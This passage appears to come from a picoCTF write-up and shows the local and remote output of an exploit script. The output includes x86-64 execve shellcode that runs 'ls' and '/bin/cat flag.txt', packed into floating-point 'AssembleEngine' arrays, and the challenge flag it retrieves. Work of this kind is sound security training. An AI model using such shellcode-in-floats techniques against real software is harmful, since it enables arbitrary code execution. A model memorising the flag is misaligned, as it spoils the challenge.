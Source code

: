 :::spoiler Local Result
```bash
$ python exp.py
[+] Starting local process '/home/sbk6401/anaconda3/envs/CTF/bin/python': pid 19347
[*] ls shellcode: b'H\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8.cho.mr\x01H1\x04$H\x89\xe7hmr\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
[*] cat flag.txt shellcode: b'j\x01\xfe\x0c$H\xb8/bin/catPH\x89\xe7h.txtH\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8b`u\x01gm`fH1\x04$1\xf6Vj\x0c^H\x01\xe6Vj\x10^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
[+] Receiving all data: Done (334B)
[*] Process '/home/sbk6401/anaconda3/envs/CTF/bin/python' stopped with exit code 0 (pid 19347)
AssembleEngine([7.748604185565308e-304, 7.001521162788231e+194, 1.773290430551938e-288, 1.0748503232447379e-301, 7.748605141607601e-304, 1.776650735790609e-302, 3.6509617888350745e+206, 4.1942076e-316])
File written. Running. Timeout is 20s
Run Complete
Stdout b'd8\nexp-nickchen.py\nexp.py\nflag.txt\nserver.py\nsource\n'
Stderr b''

[+] Starting local process '/home/sbk6401/anaconda3/envs/CTF/bin/python': pid 19366
[+] Receiving all data: Done (340B)
[*] Process '/home/sbk6401/anaconda3/envs/CTF/bin/python' stopped with exit code 0 (pid 19366)
AssembleEngine([8.191473375206089e-79, 3.775826202043335e+79, 1.1205295651588473e+253, 7.748604185565308e-304, 2.460307022775963e+257, 1.7734484618746183e-288, 4.089989556334856e+40, 1.7766596360849696e-302, 3.6509617888350745e+206, 4.1942076e-316])
File written. Running. Timeout is 20s
Run Complete
Stdout b'picoCTF{test_132}'
Stderr b''
```
:::
:::spoiler Remote Result
```bash
$ python exp.py REMOTE
[+] Opening connection to mercury.picoctf.net on port 48700: Done
[*] ls shellcode: b'H\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8.cho.mr\x01H1\x04$H\x89\xe7hmr\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
[*] cat flag.txt shellcode: b'j\x01\xfe\x0c$H\xb8/bin/catPH\x89\xe7h.txtH\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8b`u\x01gm`fH1\x04$1\xf6Vj\x0c^H\x01\xe6Vj\x10^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
[+] Receiving all data: Done (334B)
[*] Closed connection to mercury.picoctf.net port 48700
AssembleEngine([7.748604185565308e-304, 7.001521162788231e+194, 1.773290430551938e-288, 1.0748503232447379e-301, 7.748605141607601e-304, 1.776650735790609e-302, 3.6509617888350745e+206, 4.1942076e-316])
File written. Running. Timeout is 20s
Run Complete
Stdout b'd8\nflag.txt\nserver.py\nsource.tar.gz\nxinet_startup.sh\n'
Stderr b''

[+] Opening connection to mercury.picoctf.net on port 48700: Done
[+] Receiving all data: Done (362B)
[*] Closed connection to mercury.picoctf.net port 48700
AssembleEngine([8.191473375206089e-79, 3.775826202043335e+79, 1.1205295651588473e+253, 7.748604185565308e-304, 2.460307022775963e+257, 1.7734484618746183e-288, 4.089989556334856e+40, 1.7766596360849696e-302, 3.6509617888350745e+206, 4.1942076e-316])
File written. Running. Timeout is 20s
Run Complete
Stdout b'picoCTF{vr00m_vr00m_48f07b402a4020e0}\n'
Stderr b''
```
:::
